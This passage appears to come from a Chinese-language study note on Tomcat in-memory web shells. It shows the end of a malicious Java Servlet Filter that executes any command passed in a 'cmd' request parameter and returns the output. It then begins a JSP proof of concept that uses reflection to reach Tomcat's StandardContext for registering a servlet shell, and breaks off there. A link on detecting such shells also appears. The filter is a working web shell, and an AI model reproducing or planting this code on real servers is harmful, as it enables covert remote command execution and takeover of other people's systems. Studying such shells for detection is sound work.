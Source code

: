```
    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        String cmd;
        if ((cmd = servletRequest.getParameter("cmd")) != null) {
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {

    }
}
```

![image-20221110140526524](images/22.png)

# 内存马排查

https://www.yuque.com/tianxiadamutou/zcfd4v/kd35na#34bb9bc2

# servlet内存马

了解了filter内存马后，对于tomcat下的组件listener和servlet内存马的思路是一样的，只是说动态注册的过程有一点区别，这里就值记录一个POC了

```
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
%>
```